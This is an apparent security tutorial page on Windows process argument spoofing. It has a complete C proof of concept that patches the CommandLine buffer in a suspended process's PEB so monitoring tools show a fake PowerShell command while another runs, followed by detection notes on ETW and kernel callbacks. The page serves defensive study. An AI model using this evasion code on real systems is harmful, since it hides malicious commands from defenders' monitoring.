



# Process Argument Spoofing

Process Argument Spoofing is a technique that allows attackers to stomping the command line argument of a newly spawned process by updating [Process Environment Block (PEB)](https://learn.microsoft.com/fr-fr/windows/win32/api/winternl/ns-winternl-peb) structure, more specifically by patching the buffer of `CommandLine` attribute (`UNICODE_STRING` name structure data type) in [RTL_USER_PROCESS_PARAMETERS](https://learn.microsoft.com/fr-fr/windows/win32/api/winternl/ns-winternl-rtl_user_process_parameters) structure placed named `ProcessParameters` in PEB.

This causes unrevealing the real cmdline them to monitoring tools like [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)



This technique can be coupled with [PPID Spoofing](parent-process-id-ppid-spoofing.md) to obtain a complete "fake" command.

## Attack

To summarize:

1. Create a process in suspended state using [CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) with `CREATE_SUSPENDED` parameter.
2. Get his PEB structure address with [NtQueryInformationProcess](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess) function and `ProcessBasicInformation` flag passed.
3. Get `ProcessParameters` address by reading PEB with [ReadProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory) function. Reuse this WinAPI function to read `ProcessParameters` structure.
4. Patch the buffer of CommandLine in ProcessParameters structure (`PEB->ProcessParameters.CommandLine.Buffer`) with "fake" argument by using [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function.
5. Continue process execution with new parameters using [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) function.



### Simple code sample

```c
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

#define FAKE_ARG	L"powershell.exe -c Write-Host 'I love cats'"
#define REAL_ARG	L"powershell.exe -c calc.exe"

typedef NTSTATUS (NTAPI* NTQUERYINFORMATIONPROCESS)(
	HANDLE           ProcessHandle,
	PROCESSINFOCLASS ProcessInformationClass,
	PVOID            ProcessInformation,
	ULONG            ProcessInformationLength,
	PULONG           ReturnLength
);

BOOL ReadMemory(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {
	SIZE_T	bytesRead	= NULL;

	*ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
	ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &bytesRead);

	return TRUE;
}

BOOL WriteMemory(IN HANDLE hProcess, IN PVOID pAddressWritten, IN PVOID pBuffer, IN DWORD dwBufferSize) {
	SIZE_T bytesWrite	= NULL;

	WriteProcessMemory(hProcess, pAddressWritten, pBuffer, dwBufferSize, &bytesWrite);

	return TRUE;
}

BOOL ArgSpoofing(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
	NTSTATUS						STATUS		= NULL;
	WCHAR							szProcess	[MAX_PATH];
	STARTUPINFOW					Si			= { 0 };
	PROCESS_INFORMATION				Pi			= { 0 };
	PROCESS_BASIC_INFORMATION		PBI			= { 0 };
	PPEB							pPeb		= NULL;
	PRTL_USER_PROCESS_PARAMETERS	pParms		= NULL;
	NTQUERYINFORMATIONPROCESS NtQueryInformationProcessStruct = (NTQUERYINFORMATIONPROCESS)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");

	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	Si.cb = sizeof(STARTUPINFOW);

	lstrcpyW(szProcess, szStartupArgs);

	CreateProcessW(
		NULL,
		szProcess,
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW,
		NULL,
		L"C:\\Windows\\System32\\",
		&Si,
		&Pi);
	printf("[+] PID: %d\n", Pi.dwProcessId);

	NtQueryInformationProcessStruct(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), NULL);
	ReadMemory(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB));
	ReadMemory(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF);
	WriteMemory(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1));

	HeapFree(GetProcessHeap(), NULL, pPeb);
	HeapFree(GetProcessHeap(), NULL, pParms);
	ResumeThread(Pi.hThread);
	*dwProcessId	= Pi.dwProcessId;
	*hProcess		= Pi.hProcess;
	*hThread		= Pi.hThread;

	return 0;
}

int main(int argc, char* argv[]) {
	HANDLE		hProcess		= NULL,
				hThread			= NULL;
	DWORD		dwProcessId		= NULL;

	ArgSpoofing(FAKE_ARG, REAL_ARG, &dwProcessId, &hProcess, &hThread);

	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;
}
```

## Detection

### Event Tracing for Windows (ETW)

For process argument spoofing, we can use [Event Tracing for Windows (ETW)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md) with `Microsoft-Windows-Kernel-Process` provider or kernel callbacks

It's possible to search for the PID and see through several event logs that the `calc.exe` binary has been executed and not powershell helper.



However, we can see with the [ETW Explorer](https://github.com/zodiacon/EtwExplorer) tool that none of the tasks monitor the command arguments to get the precise command executed:


### Kernel Callbacks

There's a more effective way to detect dangerous commands: kernel callbacks.

This method requires the creation of a kernel driver using the [PsSetCreateProcessNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutine) routine for callback creation. [PS_CREATE_NOTIFY_INFO](https://learn.microsoft.com/fr-fr/windows-hardware/drivers/ddi/ntddk/ns-ntddk-_ps_create_notify_info) structure must be instantiated to retrieve the CommandLine fields from the processes.

This looks like this code stub:

```c
PPS_CREATE_NOTIFY_INFO createInfo = NULL;
DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL, "            CommandLine: %ws\n", createInfo->CommandLine->Buffer);
```
